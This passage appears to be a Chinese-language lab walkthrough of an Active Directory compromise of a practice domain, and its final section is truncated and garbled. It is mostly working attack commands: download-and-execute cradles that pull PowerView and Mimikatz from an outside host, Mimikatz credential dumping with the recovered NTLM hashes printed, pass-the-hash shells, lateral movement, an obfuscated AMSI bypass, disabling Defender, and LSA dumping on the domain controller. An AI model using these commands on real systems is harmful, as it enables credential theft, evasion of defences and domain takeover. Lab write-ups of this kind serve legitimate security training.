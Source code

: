 iex (iwr http://172.16.100.66/PowerView.ps1 -UseBasicParsing)
```

先收集dcorp-ci的域用户NTML
执行：Invoke-Mimikatz

收集到的哈希信息：
```
ciadmin：e08253add90dccf1a208523d02998c3d
DCORP-CI$：bc7c774ae1c2f9325adee16ff86681fc
```

打开一个ciadmin权限的shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:ciadmin /domain:dollarcorp.moneycorp.local /ntlm:e08253add90dccf1a208523d02998c3d /run:powershell.exe"'
```


查找可以横向的计算机
```
PS C:\ad> Find-LocalAdminAccess
dcorp-mgmt.dollarcorp.moneycorp.local
dcorp-ci.dollarcorp.moneycorp.local
dcorp-std366.dollarcorp.moneycorp.local
```

可以横向到dcorp-mgmt，之前我们在dcorp\srvadmin下也可以横向到dcorp-mgmt

现在去dcorp-mgmt下看看会收集到什么信息

横向到dcorp-mgmt，bypass powershell policy和AMSI
```
PS C:\ad> Enter-PSSession dcorp-mgmt.dollarcorp.moneycorp.local
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\ciadmin\Documents>
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{
6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )
."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'
+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

远程载入mimikatz，dump出所有哈希
```
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz
```
dcorp-mgmt收集到的信息有：
```
DCORP-MGMT$:639c1adde3e0d1ba0d733c7d0d8f23ec
mgmtadmin:95e2cd7ff77379e34c6e46265e75d754
svcadmin:b38ff50264b74508085d82c69794a4d8
```

现在我们得到了svcadmin的NTML，svcadmin是DA组成员，我们已经成功提权到DA

用svcadmin的权限开一个shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

查看svcadmin可以横向的计算机列表：
```

[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'